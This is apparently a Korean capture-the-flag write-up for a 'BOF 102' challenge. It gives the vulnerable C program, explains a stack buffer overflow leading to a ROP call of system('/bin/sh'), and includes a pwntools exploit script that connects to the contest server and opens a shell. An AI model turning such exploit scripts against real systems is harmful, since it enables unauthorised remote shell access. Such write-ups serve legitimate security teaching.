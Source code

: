 ## PWN - BOF 102

---

```python
#include <stdio.h>
#include <stdlib.h>

char name[16];

void bofme() {
	char payload[16];

	puts("What's your name?");
	printf("Name > ");
	scanf("%16s", name);
	printf("Hello, %s.\n", name);

	puts("Do you wanna build a snowman?");
	printf(" > ");
	scanf("%s", payload);
	printf("!!!%s!!!\n", payload);
	puts("Good.");
}

int main() {
	system("echo 'Welcome to BOF 102!'");
	bofme();
	return 0;
}
```

`system()`이 사용됐다. 따라서 `system PLT`가 존재하고 전역변수 name을 통해 인자인 `/bin/sh` 를 저장할 수 있다. 

ROP exploit을 수행하여 `system(”/bin/sh”)`를 완성하고 실행하면 된다.

### ○ exploit

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

#context.log_level = 'debug' 
#context.bits = 64

p = remote("bof102.sstf.site", 1337)   
#p = process("./bof102")

# dummy + system + dummy + [name == "/bin/sh"]
payload = b'a'*(0x10+0x4) + p32(0x8048430) + b'a'*0x4 + p64(0x0804a06c)

p.sendlineafter(b'\n', b'/bin/sh\x00')
p.sendlineafter(b'\n', payload)

p.interactive()
```
